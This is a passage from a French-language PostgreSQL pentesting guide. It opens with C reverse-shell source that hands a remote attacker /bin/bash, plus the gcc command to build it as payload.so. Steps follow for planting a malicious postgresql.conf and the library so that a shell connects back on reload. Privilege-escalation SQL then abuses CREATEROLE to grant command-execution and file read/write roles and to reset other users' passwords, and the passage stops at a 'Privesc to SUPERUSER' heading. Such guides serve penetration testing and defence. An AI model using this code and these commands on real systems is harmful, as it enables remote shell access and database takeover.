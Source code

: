```c

connect(sockt, (struct sockaddr *) &revsockaddr,
sizeof(revsockaddr));
dup2(sockt, 0);
dup2(sockt, 1);
dup2(sockt, 2);

char * const argv[] = {"/bin/bash", NULL};
execve("/bin/bash", argv, NULL);
}
```

Compilation du code :

```bash
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```

6. Téléchargez le `postgresql.conf` malveillant, créé dans les étapes 2-3, et écrasez l'original
7. Téléchargez le `payload.so` de l'étape 5 dans le répertoire `/tmp`
8. Rechargez la configuration du serveur en redémarrant le serveur ou en invoquant la requête `SELECT pg_reload_conf()`
9. Lors de la prochaine connexion à la DB, vous recevrez la connexion de shell inversé.

## **Postgres Privesc**

### Privesc CREATEROLE

#### **Grant**

Selon les [**docs**](https://www.postgresql.org/docs/13/sql-grant.html) : _Les rôles ayant le privilège **`CREATEROLE`** peuvent **accorder ou révoquer l'appartenance à tout rôle** qui **n'est pas** un **superutilisateur**._

Donc, si vous avez la permission **`CREATEROLE`**, vous pourriez vous accorder l'accès à d'autres **rôles** (qui ne sont pas superutilisateurs) qui peuvent vous donner la possibilité de lire et d'écrire des fichiers et d'exécuter des commandes :
```sql
# Access to execute commands
GRANT pg_execute_server_program TO username;
# Access to read files
GRANT pg_read_server_files TO username;
# Access to write files
GRANT pg_write_server_files TO username;
```
#### Modifier le mot de passe

Les utilisateurs avec ce rôle peuvent également **changer** les **mots de passe** d'autres **non-superutilisateurs** :
```sql
#Change password
ALTER USER user_name WITH PASSWORD 'new_password';
```
#### Privesc to SUPERUSER
